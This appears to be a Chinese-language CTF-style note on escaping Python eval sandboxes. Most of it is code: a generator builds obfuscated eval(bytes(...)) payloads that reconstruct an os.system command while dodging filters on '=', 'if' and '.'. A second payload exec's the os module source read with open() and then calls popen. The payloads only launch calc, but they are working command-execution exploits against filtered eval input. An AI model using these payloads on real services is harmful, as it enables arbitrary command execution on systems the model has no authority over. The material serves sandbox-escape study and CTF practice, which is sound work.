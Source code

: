 ```python
exp = '__import__("os").system("calc")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if[" + "]or[".join(
    [f"i]==[{i}]and[j]==[{ord(j)}" for i, j in enumerate(exp)]) + "]]))")
```

```python
eval(bytes([[j][0]for(i)in[range(31)][0]for(j)in[range(256)][0]if[i]==[0]and[j]==[95]or[i]==[1]and[j]==[95]or[i]==[2]and[j]==[105]or[i]==[3]and[j]==[109]or[i]==[4]and[j]==[112]or[i]==[5]and[j]==[111]or[i]==[6]and[j]==[114]or[i]==[7]and[j]==[116]or[i]==[8]and[j]==[95]or[i]==[9]and[j]==[95]or[i]==[10]and[j]==[40]or[i]==[11]and[j]==[34]or[i]==[12]and[j]==[111]or[i]==[13]and[j]==[115]or[i]==[14]and[j]==[34]or[i]==[15]and[j]==[41]or[i]==[16]and[j]==[46]or[i]==[17]and[j]==[115]or[i]==[18]and[j]==[121]or[i]==[19]and[j]==[115]or[i]==[20]and[j]==[116]or[i]==[21]and[j]==[101]or[i]==[22]and[j]==[109]or[i]==[23]and[j]==[40]or[i]==[24]and[j]==[34]or[i]==[25]and[j]==[99]or[i]==[26]and[j]==[97]or[i]==[27]and[j]==[108]or[i]==[28]and[j]==[99]or[i]==[29]and[j]==[34]or[i]==[30]and[j]==[41]]))
```

若`=`等号也被过滤了，可使用`in`

```python
exp = '__import__("os").system("calc")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if[" + "]or[".join(
    [f"i]in[[{i}]]and[j]in[[{ord(j)}]" for i, j in enumerate(exp)]) + "]]))")
```

```python
eval(bytes([[j][0]for(i)in[range(31)][0]for(j)in[range(256)][0]if[i]in[[0]]and[j]in[[95]]or[i]in[[1]]and[j]in[[95]]or[i]in[[2]]and[j]in[[105]]or[i]in[[3]]and[j]in[[109]]or[i]in[[4]]and[j]in[[112]]or[i]in[[5]]and[j]in[[111]]or[i]in[[6]]and[j]in[[114]]or[i]in[[7]]and[j]in[[116]]or[i]in[[8]]and[j]in[[95]]or[i]in[[9]]and[j]in[[95]]or[i]in[[10]]and[j]in[[40]]or[i]in[[11]]and[j]in[[34]]or[i]in[[12]]and[j]in[[111]]or[i]in[[13]]and[j]in[[115]]or[i]in[[14]]and[j]in[[34]]or[i]in[[15]]and[j]in[[41]]or[i]in[[16]]and[j]in[[46]]or[i]in[[17]]and[j]in[[115]]or[i]in[[18]]and[j]in[[121]]or[i]in[[19]]and[j]in[[115]]or[i]in[[20]]and[j]in[[116]]or[i]in[[21]]and[j]in[[101]]or[i]in[[22]]and[j]in[[109]]or[i]in[[23]]and[j]in[[40]]or[i]in[[24]]and[j]in[[34]]or[i]in[[25]]and[j]in[[99]]or[i]in[[26]]and[j]in[[97]]or[i]in[[27]]and[j]in[[108]]or[i]in[[28]]and[j]in[[99]]or[i]in[[29]]and[j]in[[34]]or[i]in[[30]]and[j]in[[41]]]))
```

## payload 2

现在把上面的`if`给ban了，如何解决

我们知道，`import`可以认为是打开源码之后执行代码，也就是`exec(open(...).read())`

* 如何知道库的绝对路径
  * `__import__`返回的`module`经过`str`就会有绝对路径
* `.`点被干掉了如何读文件
  * `open`的返回值是`_io.TextIOWrapper`，存在 `__iter__` 方法，可以把它当做是一个可迭代对象来迭代
  * `list(open(str(__import__("os"))[19:-2]))` 等价  `open(...).readlines()`

* 如何把一行一行的代码转化为一个字符串
  * 列表推导式将每行字符串拆成一个个字符，再转ascii

```python
exec(bytes([ord(j)for(i)in(list(open(str(__import__(list(dict(os=1))[0]))[19:-2])))for(j)in(i)]))
popen("calc")
```
